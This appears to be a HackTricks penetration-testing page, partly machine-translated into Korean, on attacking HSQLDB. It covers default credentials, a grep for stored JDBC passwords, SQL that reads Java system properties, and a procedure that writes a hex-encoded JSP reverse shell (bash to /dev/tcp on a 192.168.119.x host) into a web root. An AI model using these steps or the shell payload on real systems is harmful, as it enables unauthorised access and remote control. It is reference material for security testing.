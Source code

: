 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# 기본 정보

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)**는 Java로 작성된 주요 SQL 관계형 데이터베이스 시스템입니다. 메모리 내 및 디스크 기반 테이블을 지원하며, 내장 및 서버 모드를 지원하는 작고 빠른 다중 스레드 및 트랜잭션 데이터베이스 엔진을 제공합니다.

**기본 포트:** 9001
```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```
# Information

### Default Settings

기본적으로 이 서비스는 메모리에서 실행되거나 localhost에 바인딩되어 있을 가능성이 높습니다. 이를 발견했다면, 아마 다른 서비스를 이용해 취약점을 이용하고 권한 상승을 시도하고 있는 것입니다.

기본 자격 증명은 일반적으로 비밀번호가 없는 `sa`입니다.

다른 서비스를 이용했다면, 가능한 자격 증명을 검색하십시오.
```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```
Note the database name carefully - you’ll need it to connect.

# Info Gathering

DB 인스턴스에 연결하려면 [HSQLDB 다운로드](https://sourceforge.net/projects/hsqldb/files/) 후 `hsqldb/lib/hsqldb.jar`를 추출하세요. `java -jar hsqldb.jar`를 사용하여 GUI 앱 \(eww\)을 실행하고 발견된/약한 자격 증명을 사용하여 인스턴스에 연결하세요.

원격 시스템의 경우 연결 URL은 다음과 비슷하게 보일 것입니다: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Tricks

## Java Language Routines

HSQLDB에서 Java Language Routines를 사용하여 Java 클래스의 정적 메서드를 호출할 수 있습니다. 호출된 클래스는 애플리케이션의 클래스 경로에 있어야 합니다.

JRT는 `functions` 또는 `procedures`일 수 있습니다. 함수는 Java 메서드가 하나 이상의 SQL 호환 기본 변수를 반환하는 경우 SQL 문을 통해 호출할 수 있습니다. `VALUES` 문을 사용하여 호출됩니다.

우리가 호출하고자 하는 Java 메서드가 void를 반환하는 경우, `CALL` 문으로 호출되는 프로시저를 사용해야 합니다.

## Reading Java System Properties

함수 생성:
```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
함수 실행:
```text
VALUES(getsystemproperty('user.name'))
```
You can find a [list of system properties here](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## 파일에 내용 쓰기

JDK에 위치한 `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java 가젯을 사용하여 사용자 정의 프로시저를 통해 16진수 인코딩 항목을 디스크에 쓸 수 있습니다. **최대 크기는 1024 바이트입니다**.

프로시저 생성:
```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
프로시저 실행:
```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
